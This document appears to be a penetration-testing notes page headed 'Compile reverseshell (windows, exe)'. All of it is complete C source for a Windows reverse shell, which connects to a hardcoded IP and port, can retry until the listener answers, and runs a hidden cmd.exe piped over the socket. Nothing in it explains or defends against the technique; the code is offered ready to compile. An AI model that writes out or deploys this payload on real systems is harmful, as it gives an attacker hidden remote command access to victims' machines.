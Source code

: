 ## Compile reverseshell (windows, exe)
```c
#include <winsock2.h>
#include <windows.h>
#include <io.h>
#include <process.h>
#include <sys/types.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* ================================================== */
/* |     CHANGE THIS TO THE CLIENT IP AND PORT      | */
/* ================================================== */
#if !defined(CLIENT_IP) || !defined(CLIENT_PORT)
#define CLIENT_IP (char*)"192.168.45.208"
#define CLIENT_PORT (int)5555
#endif
/* ================================================== */

int main(void) {
	if (strcmp(CLIENT_IP, "0.0.0.0") == 0 || CLIENT_PORT == 0) {
		write(2, "[ERROR] CLIENT_IP and/or CLIENT_PORT not defined.\n", 50);
		return (1);
	}

	WSADATA wsaData;
	if (WSAStartup(MAKEWORD(2 ,2), &wsaData) != 0) {
		write(2, "[ERROR] WSASturtup failed.\n", 27);
		return (1);
	}

	int port = CLIENT_PORT;
	struct sockaddr_in sa;
	SOCKET sockt = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = inet_addr(CLIENT_IP);

#ifdef WAIT_FOR_CLIENT
	while (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		Sleep(5000);
	}
#else
	if (connect(sockt, (struct sockaddr *) &sa, sizeof(sa)) != 0) {
		write(2, "[ERROR] connect failed.\n", 24);
		return (1);
	}
#endif

	STARTUPINFO sinfo;
	memset(&sinfo, 0, sizeof(sinfo));
	sinfo.cb = sizeof(sinfo);
	sinfo.dwFlags = (STARTF_USESTDHANDLES);
	sinfo.hStdInput = (HANDLE)sockt;
	sinfo.hStdOutput = (HANDLE)sockt;
	sinfo.hStdError = (HANDLE)sockt;
	PROCESS_INFORMATION pinfo;
	CreateProcessA(NULL, "cmd", NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &sinfo, &pinfo);

	return (0);
}
```
